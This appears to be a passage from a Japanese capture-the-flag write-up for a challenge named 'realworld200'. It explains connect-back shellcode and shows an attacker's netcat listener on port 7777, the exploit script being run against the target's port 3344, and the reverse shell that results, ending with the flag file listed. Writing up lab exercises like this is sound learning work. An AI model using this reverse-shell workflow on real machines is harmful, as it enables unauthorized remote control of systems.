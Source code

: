 　今回作成したshellcodeは、socketを開き、connect関数を呼び出して任意のサ
ーバへコネクションを行うものです。「REMOTE ADDR」の4バイトにサーバのIPア
ドレスを、同じく「REMOTE PORT」の下位2バイトにサーバのポートを指定します。
そして「RET ADDRESS」には、推測したメモリアドレス（callocの戻り値）を設定
します。
　リモート環境を対象としたアタックでは、bind、listen、acceptを行い、外部
から接続を待ち受ける「bind型」のshellcodeも良く使われますが、今回はshell
codeを置けるメモリ領域が少なかったため（0x40バイト）このようなshellcodeに
しました。よって、こちら側で待ち受け用のサーバも用意します。待ち受け用の
サーバには、netcatを使います。

-----  attack terminal
# nc -l 7777
-----

　続いて、ターゲットとなるマシンで、realworld200プログラムを起動します。

-----  target terminal
# ./realworld200-be2241fd5ac13d18c2360046dba7ed0e
-----

　そして、ターゲットマシンのポート3344（realworld200プログラムが利用する
ポート）へ、exploitを送信します。

-----  attack terminal
# python exploit200.py
-----

　あとは確率の問題ですが、アドレスがcallocで得られるアドレス範囲にマッチ
していれば、300〜400回で（要するにexploit200.pyを3〜4回実行すれば）攻撃は
成功します。攻撃が成功したら、netcatから、targetマシンが奪えます。

-----  attack terminal
# nc -l 7777
ls（コマンドが通る）
.cshrc
.login
.login_conf
.mail_aliases
.mailrc
.profile
.rhosts
.shrc
realworld200-be2241.core
realworld200-be2241fd5ac13d18c2360046dba7ed0e
key（パスワード発見！）
-----

